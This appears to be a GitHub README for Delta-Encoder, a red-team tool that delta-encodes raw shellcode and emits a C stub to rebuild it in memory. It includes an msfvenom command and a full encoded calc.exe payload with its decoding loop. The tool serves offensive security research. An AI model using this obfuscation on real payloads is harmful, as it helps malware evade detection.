 # Delta-Encoder
Delta-Encoder will take a raw shellcode file as input and outputs an array of deltas and a C/C++ stub to reconstitute the shellcode in memory. This does not produce a fully working shellcode loader. Delta-Encoder will only produce the encoded shellcode delta array and the code to reconstitute the shellcode at runtime.

For more information on Delta-Encoder, check out the blog here: [https://redsiege.com/blog/2024/04/delta/](https://redsiege.com/blog/2024/04/delta/)

## Usage
```python3 delta.py -i inputfile.bin```

## Example
```
$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
$ python3 delta.py -i calc.bin

//Initial byte for setting rest of the deltas
unsigned char first_byte = 0xfc;

//Array of deltas
unsigned char delta[275] = {0x4c, 0x3b, 0x61, 0xc, 0xf8, 0xd8, 0x40, 0x0, 0x0, 0x41, 0x10, 0xf0, 0xf, 0x2, 0xff, 0x5, 0xf2, 0xe9, 0xa1, 0x93, 0xe3, 0x43, 0xc7, 0xe, 0xe8, 0x43, 0xc7, 0xc6, 0x30, 0x43, 0xc7, 0xce, 0x28, 0x43, 0xe7, 0xde, 0xf8, 0xc7, 0xa8, 0x93, 0x0, 0x3, 0xe4, 0x98, 0x7f, 0xe9, 0x8f, 0xec, 0x90, 0x25, 0x1b, 0x86, 0x2a, 0xf4, 0x21, 0x80, 0x8, 0x44, 0x34, 0xc0, 0xc0, 0x21, 0xb, 0x65, 0xef, 0x10, 0xf7, 0x43, 0xc7, 0xce, 0x6b, 0xb7, 0xfa, 0xc, 0xb9, 0xcf, 0xbb, 0xf5, 0x8, 0x78, 0x0, 0x0, 0x48, 0x3d, 0x3b, 0xb4, 0xf3, 0xe1, 0xb9, 0xcf, 0x80, 0x3b, 0xbd, 0xd0, 0x2c, 0x47, 0xb5, 0xe0, 0x29, 0xb8, 0xcf, 0x13, 0x73, 0xf2, 0xb7, 0xca, 0x78, 0x4a, 0xa9, 0x54, 0xc0, 0xb9, 0xd5, 0x77, 0xe4, 0x98, 0x7f, 0xe9, 0x8f, 0xec, 0x95, 0x80, 0x8, 0x44, 0x34, 0xc0, 0xc0, 0x77, 0xa8, 0x95, 0x7c, 0x5b, 0xb7, 0x49, 0xd8, 0xe4, 0x3d, 0xf4, 0x98, 0xa4, 0x63, 0x80, 0xec, 0x47, 0xb5, 0xe4, 0x25, 0xb8, 0xcf, 0x96, 0xdb, 0x4a, 0x81, 0x3c, 0xfc, 0x47, 0xb5, 0xdc, 0x2d, 0xb8, 0xcf, 0x71, 0x4a, 0x79, 0x84, 0xc0, 0xb9, 0xcf, 0x71, 0x17, 0xe9, 0x17, 0x6, 0xfb, 0x1, 0xe7, 0x17, 0xe9, 0x18, 0xe8, 0x19, 0xee, 0x3b, 0x69, 0x34, 0x21, 0x11, 0xad, 0xe1, 0x78, 0xe9, 0x18, 0x1, 0xee, 0x43, 0x87, 0xd7, 0x6e, 0xa8, 0x0, 0x0, 0x5e, 0xeb, 0x72, 0x47, 0xff, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x48, 0x45, 0x0, 0x74, 0x0, 0xff, 0x0, 0x41, 0x79, 0x77, 0x5a, 0xe4, 0x18, 0x78, 0xd6, 0xe6, 0x35, 0xc5, 0xed, 0xb4, 0xeb, 0x79, 0xec, 0xef, 0x28, 0xe0, 0x62, 0xd6, 0x73, 0x3b, 0x41, 0x64, 0x14, 0xca, 0x76, 0x8e, 0x76, 0x7b, 0xe5, 0x95, 0x90, 0xb6, 0x8c, 0xcc, 0x5f, 0xfd, 0xfb, 0x96, 0x59, 0xe8, 0x48, 0x51, 0x25, 0xd6, 0x8e, 0xfe, 0xb, 0xf7, 0xcb, 0x37, 0x13, 0xed, 0x9b };

//Array to hold the reconstituted shellcode. Needs to be set to 1 byte more than original array
unsigned char rebuilt[276] = { 0x00 };
unsigned int i, index;
//Size of delta array
int cap = sizeof(delta) / sizeof(delta[0]);

//Setting first byte of the reconstituted array to the first byte of the payload
rebuilt[0] = first_byte;

/*Takes initial byte and adds the delta to it to get the second byte. Takes second byte
and adds second delta to get third byte and so on.*/
for (i = 0; i < cap; i++)
{
    index = i + 1;
    rebuilt[index] = rebuilt[i] + delta[i];
}
```

### Credits
Huge shoutouts to Mike Saunders [(@HardwaterHacker)](https://github.com/hardwaterhacker) who translated my crappy C code into a way easier to use Python script and for pushing the team to come up with new ideas.
